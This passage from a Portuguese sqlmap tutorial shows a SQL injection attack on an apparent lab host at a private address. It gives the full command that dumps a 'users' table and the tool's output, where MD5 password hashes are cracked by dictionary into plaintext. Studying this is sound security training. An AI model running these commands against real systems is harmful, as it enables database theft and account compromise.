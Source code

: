 O SQLmap retornou que a tabela ``users`` possui os campos: ``name`` e ``password``. Vamos continuar a exploração, tentando agora obter essas informações das colunas descobertas.


### Sqlmap - obtendo os dados de uma tabela

A parte mais desejada da exploração SQLi é obter os dados de uma tabela. Neste exemplo vamos tentar obter dados que parecem ser usuário/senha do sistema. Para isso é necessário além das opções utilizadas nos comandos anteriores, passar: os nomes das colunas (``-C name,password``) e a opção  **``--dump``**, para recuperar os dados dessas colunas. Veja o comando e seu resultado na saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users -C name,password --dump
...
[09:53:46] [INFO] fetching entries of column(s) 'name,password' for table 'users' in database 'employees'
[09:53:46] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[09:53:49] [INFO] writing hashes to a temporary file '/tmp/sqlmapmrngvs1r386570/sqlmaphashes-p_tdu2sh.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q]

[09:53:54] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1

[09:54:01] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y

[09:54:08] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[09:54:08] [INFO] starting 2 processes
[09:54:10] [INFO] cracked password '123456' for hash 'e10adc3949ba59abbe56e057f20f883e'
[09:54:10] [INFO] cracked password '123mudar' for hash '89794b621a313bb59eed0d9f0f4e8205'
[09:54:24] [INFO] cracked password 'master' for hash 'eb0a191797624dd3a48fa681d3061212'
[09:54:26] [INFO] cracked password 'felicidade' for hash '739419e9dbbe9aa73bd716d4b3b9d86b'
[09:54:30] [INFO] cracked password 'iloveyou' for hash 'f25a2fc72690b780b2a14e140ef6a9e0'
[09:54:44] [INFO] using suffix '1'
[09:55:19] [INFO] current status: parge... |^C
[09:55:19] [WARNING] user aborted during dictionary-based attack phase (Ctrl+C was pressed)
Database: employees
Table: users
[5 entries]
+---------+-----------------------------------------------+
| name    | password                                      |
+---------+-----------------------------------------------+
| jose    | e10adc3949ba59abbe56e057f20f883e (123456)     |
| antonio | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou)   |
| maria   | eb0a191797624dd3a48fa681d3061212 (master)     |
| ana     | 739419e9dbbe9aa73bd716d4b3b9d86b (felicidade) |
| luiz    | 89794b621a313bb59eed0d9f0f4e8205 (123mudar)   |
+---------+-----------------------------------------------+

[09:55:19] [INFO] table 'employees.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.56.108/dump/employees/users.csv'
[09:55:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'

[*] ending @ 09:55:19 /2023-04-17/
```